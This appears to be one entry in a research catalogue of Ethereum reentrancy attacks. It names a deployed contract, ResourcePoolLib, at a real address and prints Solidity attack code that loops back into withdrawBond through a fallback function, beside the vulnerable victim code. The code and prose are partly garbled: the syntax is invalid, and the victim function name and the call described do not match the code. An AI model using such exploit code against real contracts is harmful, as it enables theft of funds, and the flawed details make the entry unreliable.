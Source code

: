#########
Attack 16
#########

**Contract Name**

ResourcePoolLib

**Contract Address**

0xf4861b23d0cbf1cf6a3ffb6fe3ac987e87fc1168

**Transaction Count**

16

**Invovled Ethers**

0.94 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``eT``

**Attack Mechanisim**

Attack code:
::

    contract Attack is UacCrowdsale{
        ResourcePoolLib r = new ResourcePoolLib();

        constructor() payable {}

        function startAttack() public {   
            r.withdrawBond(pool this, 10, 10);
        }

        function() payable {
            r.withdrawBond(pool this, 10, 10);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract ResourcePoolLib {
        ...
        function withdrawBond(Pool storage self, address resourceAddress, uint value, uint minimumBond) public {
            if (value > self.bonds[resourceAddress]) {
                throw;
            }

            if (isInPool(self, resourceAddress)) {
                if (self.bonds[resourceAddress] - value < minimumBond) {
                    return;
                }
            }

            deductFromBond(self, resourceAddress, value);

            if (!resourceAddress.send(value)) {
                if (!resourceAddress.call.gas(msg.gas).value(value)()) {
                    throw;
                }
            }
        }
        ...
    }

In this case, the attacker can lauch reentrancy attack by calling ``crowdsale.mintReservationTokens(to, amount)``. The attacker firstly resets the address variable ``crowdsale``. Then he can call victim function ``withdrawBond`` to start attack. The transaction destination is already modified, so the external call is controled by attacker. He can point this call back to the victim function ``withdrawBond`` and form a call-loop easily.

**Attack.** The attacker call ``startAttack`` to start attack.